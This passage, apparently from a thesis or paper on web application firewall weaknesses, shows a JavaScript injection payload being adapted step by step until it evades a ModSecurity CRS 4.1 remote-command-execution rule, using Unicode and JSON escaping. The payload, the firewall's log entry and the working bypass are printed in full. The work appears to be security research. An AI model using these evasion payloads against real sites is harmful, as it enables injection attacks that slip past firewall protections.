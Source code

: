 \begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```
\end{lstlisting}

This payload caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using Unicode code point escaping in JavaScript as proposed under Section~\ref{sec:jsescape}. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\u{0024}{s}`'}```
\end{lstlisting}

This made the payload bypass the ModSecurity firewall using \acrshort{crs} 4.1. During validating, the bypassing payload triggered an error when parsing the request body with \verb|JSON.parse()|. A similar case was mentioned under Section~\ref{sec:jsescapesingleiter}. As the Unicode code point escape is used within a string in this payload, percent encoding is not neccessary. Instead, the back-slash in the character sequence \verb|s\u{0024}| was escaped by prepending it with another back-slash. RFC4627: The application/json Media Type for JavaScript Object Notation (JSON) states that in JSON:
\begin{quote}
	there are two-character sequence escape representations of some popular characters.  So, for example, a string containing only a single reverse solidus character may be represented more compactly as \quotes{\textbackslash \textbackslash }. \cite{rfc4627}
\end{quote}

The resulting payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}


